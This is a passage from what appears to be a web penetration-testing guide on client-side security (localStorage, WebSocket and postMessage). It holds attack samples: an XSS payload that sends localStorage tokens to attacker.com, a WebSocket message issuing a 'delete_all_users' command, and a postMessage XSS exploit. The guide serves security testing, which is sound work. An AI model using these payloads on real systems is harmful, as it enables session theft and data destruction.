 
## Client-Side Security

### Local Storage Security

```javascript
// Check for sensitive data in localStorage
console.log(localStorage);

// Common sensitive data found:
// - JWT tokens
// - Session IDs
// - API keys
// - PII (personally identifiable information)

// Exploit:
// XSS → steal localStorage:
<script>
fetch('http://attacker.com/steal?data=' + btoa(JSON.stringify(localStorage)));
</script>
```

### WebSocket Security

```javascript
// Test WebSocket endpoint
var ws = new WebSocket('ws://target.com/chat');

ws.onopen = function() {
    // Send malicious message
    ws.send('{"type":"admin","command":"delete_all_users"}');
};

ws.onmessage = function(event) {
    console.log('Received:', event.data);
};

// Check for authentication
// Vulnerable: WebSocket accepts connections without auth token

// Check for message validation
// Send unexpected message types, XSS payloads, injection attempts
```

### PostMessage Security

```javascript
// Vulnerable postMessage listener:
window.addEventListener('message', function(event) {
    // No origin validation!
    document.getElementById('output').innerHTML = event.data;  // XSS!
});

// Exploit from attacker.com:
<iframe src="http://target.com/vulnerable-page"></iframe>
<script>
frames[0].postMessage('<img src=x onerror=alert(1)>', '*');
</script>

// Secure implementation:
window.addEventListener('message', function(event) {
    // Validate origin
    if (event.origin !== 'https://trusted-site.com') {
        return;
```